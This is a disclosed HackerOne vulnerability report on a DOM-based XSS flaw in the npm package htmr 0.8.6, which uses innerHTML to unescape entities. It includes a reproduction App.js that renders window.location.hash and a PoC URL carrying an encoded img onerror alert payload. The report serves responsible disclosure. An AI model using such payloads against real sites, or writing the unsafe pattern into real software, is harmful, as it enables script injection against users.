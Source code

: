 # [htmr] DOM-based XSS

## Report Details
- **Report ID**: 753971
- **URL**: https://hackerone.com/reports/753971
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-08T13:23:59.024Z
- **Disclosed**: 2020-03-15T08:10:39.848Z

## Reporter
- **Username**: visat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi,

I would like to report DOM-based XSS in htmr.
It allows attackers to insert malicious JavaScript payload into the page.

# Module

**module name:** htmr
**version:** 0.8.6
**npm page:** `https://www.npmjs.com/package/htmr`

## Module Description

Simple and lightweight (< 2kB) HTML string to react element conversion library

## Module Stats

[6,877] weekly downloads

# Vulnerability

## Vulnerability Description

This module uses `innerHTML` [ref](https://github.com/pveyes/htmr/blob/6e3607a2186d6166eaf395e5272cb9a80c4e2cf6/src/browser.ts#L21) to unescape HTML entities. This leads to DOM-based XSS by inserting HTML-encoded XSS payload (see PoC).

## Steps To Reproduce:

1. Create a React app: `create-react-app xss-htmr`
2. Install `htmr` module: `cd xss-htmr; npm i htmr`
3. Edit `src/App.js` file to this:

```
import React from 'react';
import convert from 'htmr';

export default function App() {
  return convert(`<p>Hash: ${window.location.hash}</p>`);
}
```
4. Run the server: `npm run start`
5. Visit `http://localhost:3000/#&lt;img/src/onerror=alert('xss')&gt;`, an alert will popup.

{F653977}

## Supporting Material/References:

- macOS Mojave 10.14.6
- Node 12.13.1
- NPM 6.12.1
- Chrome 78.0.3904.108

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

Thank you and regards,
Visat

## Impact

DOM-based XSS

## Attachments
- Screen_Shot_2019-12-08_at_20.00.34.png
